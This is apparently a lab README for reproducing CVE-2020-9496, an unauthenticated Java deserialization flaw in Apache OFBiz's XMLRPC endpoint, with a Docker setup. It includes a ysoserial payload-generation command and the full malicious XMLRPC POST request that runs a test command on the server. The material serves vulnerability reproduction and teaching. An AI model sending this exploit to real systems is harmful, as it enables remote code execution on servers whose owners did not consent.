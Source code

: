 # Unsafe deserialization of XMLRPC arguments in ApacheOfBiz (CVE-2020-9496)

[中文版本(Chinese version)](README.zh-cn.md)

Apache OFBiz is an open source enterprise resource planning (ERP) system. It provides a suite of enterprise applications that integrate and automate many of the business processes of an enterprise.

OfBiz exposes an XMLRPC endpoint at `/webtools/control/xmlrpc`. This is an unauthenticated endpoint since authentication is applied on a per-service basis. However, the XMLRPC request is processed before authentication. As part of this processing, any serialized arguments for the remote invocation are deserialized, therefore if the classpath contains any classes that can be used as gadgets to achieve remote code execution, an attacker will be able to run arbitrary system commands on any OfBiz server with same privileges as the servlet container running OfBiz.

References:

1. https://securitylab.github.com/advisories/GHSL-2020-069-apache_ofbiz
2. https://github.com/dwisiswant0/CVE-2020-9496
3. https://www.cnblogs.com/ph4nt0mer/p/13576739.html

## Vulnerable environment

Executing following command to start an Apache OfBiz (17.12.01):

```
docker compose up -d
```

After a short wait, you can see the login page at `https://localhost:8443/accounting`.

## Vulnerability Reproduce

There is no error message in response by default, we can't reproduce the vulnerability using the POC of [reference link 2](https://github.com/dwisiswant0/CVE-2020-9496), so ask [ysoserial](https://github.com/frohoff/ysoserial) for help.

Generate the CommonsBeanutils1 payload:

```
java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/success" | base64 | tr -d "\n"
```

![](1.png)

Replace the `[base64-payload]` and send the request:

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![](2.png)

`touch /tmp/success` is succesful executing in the container:

![](3.png)
